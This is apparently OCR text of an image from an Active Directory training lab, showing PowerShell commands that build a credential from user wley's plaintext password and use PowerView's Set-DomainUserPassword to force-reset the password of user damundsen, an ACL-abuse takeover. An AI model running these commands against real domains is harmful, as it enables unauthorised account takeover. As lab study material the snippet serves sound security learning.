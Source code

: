 ```
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

```
$newuserPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

import-module powerview and then 
```powershell-session
Set-DomainUserPassword -Identity damundsen -AccountPassword $newuserPassword -Credential $Cred -Verbose
```
